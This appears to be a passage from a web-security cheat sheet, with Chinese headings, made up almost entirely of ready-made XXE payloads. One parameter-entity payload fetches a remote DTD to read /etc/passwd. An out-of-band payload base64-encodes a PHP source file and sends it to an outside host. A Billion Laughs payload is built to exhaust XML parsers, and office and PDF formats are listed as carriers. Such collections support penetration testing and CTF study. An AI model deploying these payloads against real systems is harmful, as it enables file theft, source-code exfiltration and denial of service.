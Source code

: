 ## 參數實體

```xml
<!DOCTYPE kaibro[
    <!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
    %remote;
]>
<root>&b;</root>
```
xxe.dtd: `<!ENTITY b SYSTEM "file:///etc/passwd">`


## Out of Band (OOB) XXE

- Blind 無回顯

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/xxe/test.php">
<!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
%remote;
%all;
%send;
]>
```

xxe.dtd:

```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://kaibro.tw/?a=%file;'>">
```

## DoS

- Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

## 其它

- DOCX
- XLSX
- PPTX
- PDF
- https://github.com/BuffaloWill/oxml_xxe
